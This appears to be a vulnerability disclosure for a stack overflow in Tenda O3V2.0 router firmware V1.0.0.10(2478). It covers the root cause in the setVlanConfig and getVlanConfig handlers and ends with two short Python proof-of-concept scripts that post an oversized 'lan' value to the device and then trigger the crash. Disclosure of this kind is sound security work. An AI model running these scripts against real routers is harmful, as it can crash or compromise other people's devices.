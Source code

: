 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `lan` POST parameter accepted by `/goform/setVlanConfig` is written to the configuration key `lan.1.vlanid` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getVlanConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type**:Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `lan.1.vlanid`.

## Technical details

- The `setVlanConfig` endpoint accepts a POST parameter `lan` and calls `SetValue("lan.1.vlanid", v7)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115558.png)

- The `getVlanConfig` endpoint retrieves the `lan` parameter using `get_mib_2cJSONString(Object, (int)"lan", (int)"lan.1.vlanid", v6)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_115845.png)

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_120022.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `lan.1.vlanid` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setVlanConfig"
payload =  b"a"*1000

data = {"lan":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getVlanConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)